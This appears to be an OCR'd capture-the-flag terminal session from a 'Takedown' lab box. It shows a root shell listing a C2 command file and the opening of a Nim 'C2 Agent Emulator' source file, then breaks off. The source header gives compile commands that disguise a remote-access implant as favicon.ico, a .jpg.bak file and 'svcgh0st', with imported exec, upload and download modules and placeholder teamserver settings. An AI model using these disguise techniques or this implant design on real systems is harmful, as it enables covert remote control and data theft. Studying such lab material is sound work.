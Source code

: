 ls
bin   dev  home  lib64	mnt  proc	    root  sbin	sys  usr
boot  etc  lib	 media	opt  python-docker  run   srv	tmp  var
root@c2-shrike-1:/# cd python-docker
cd python-docker
root@c2-shrike-1:/python-docker# cat aggressor.txt
cat aggressor.txt
whoami
id
pwd
hostname
upload bar.txt foo.txtroot@c2-shrike-1:/python-docker# 


root@c2-shrike-1:/python-docker/agent# ls
ls
commands  favicon.ico  main.nim  shutterbug.jpg.bak  svcgh0st
root@c2-shrike-1:/python-docker/agent# cat main.nim
cat main.nim
#[
    C2 Agent Emulator
    Built for Takedown THM box

    Compile for dev:
        nim c --run main.nim -v

    Compile for release:
        Windows [favicon.ico]
            nim c --d:mingw --d:release --deadCodeElim:on --opt:size --stackTrace:off --lineTrace:off --app=gui -d:strip --cpu=amd64 -o:favicon.ico main.nim
        Linux [shutterbug.jpg.bak]
            nim c --d:release --deadCodeElim:on --opt:speed --stackTrace:off --lineTrace:off -d:strip --cpu=amd64 -o:shutterbug.jpg.bak main.nim
        Linux [webserver-RAT]
            nim c --d:release --deadCodeElim:on --opt:size --stackTrace:off --lineTrace:off -d:strip --cpu=amd64 -o:svcgh0st main.nim
            Ensure keyed username and teamserver IP are changed
]#
from os import sleep
import osproc
import std/[httpclient, json]
import sequtils, random
from strutils import join, strip
include commands/[whoami, id, upload, pwd, download, exec, get_hostname]
import argparse
from nativesockets import getHostName
#import strenc

randomize()

# TESTING VARS
# var api_server = "http://localhost:8000/"
# const keyed_username = "husky"
